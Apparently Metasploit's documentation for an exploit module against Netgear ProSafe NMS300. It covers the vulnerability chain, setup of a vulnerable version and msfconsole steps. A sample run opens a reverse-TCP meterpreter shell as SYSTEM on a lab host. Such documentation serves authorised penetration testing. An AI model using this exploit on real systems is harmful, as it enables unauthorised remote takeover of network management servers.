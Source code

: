 ## Vulnerable Application

Netgear's ProSafe NMS300 is a network management utility that runs on Windows systems.
The application has multiple vulnerabilities that can allow an unauthenticated remote
attacker to execute code as SYSTEM user. Vulnerabilities include authentication bypass,
SQL injection, arbitrary file upload, and privilege escalation across various versions.
This module is able to spawn a meterpreter session by chaining together two specific
vulnerabilities inside the FileUploadController and MyHandlerInterceptor classes.
This module has been tested with versions `1.5.0.2`, `1.4.0.17`, `1.7.0.12`, and `1.7.0.1`.

Note: Module should also work against version `1.1.0.13` but it wasn't tested.

## Testing
For installing the vulnerable version follow the steps below,
1. Download the [installer](https://www.netgear.com/support/product/nms300#download) for versions below **v1.7.0.22**.
2. Follow installation steps.

After these steps the ProSAFE NMS web panel will be exposed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/http/netgear_nms_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `exploit`

## Options

## Scenarios

```
msf6 > use exploit/windows/http/netgear_nms_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/netgear_nms_rce) > set rhosts 192.168.56.104
rhosts => 192.168.56.104
msf6 exploit(windows/http/netgear_nms_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/http/netgear_nms_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.104:8080 - Uploading payload...
[+] 192.168.56.104:8080 - Payload uploaded successfully
[*] 192.168.56.104:8080 - Executing payload...
[*] Sending stage (175686 bytes) to 192.168.56.104
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.104:50133) at 2023-08-02 22:40:21 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
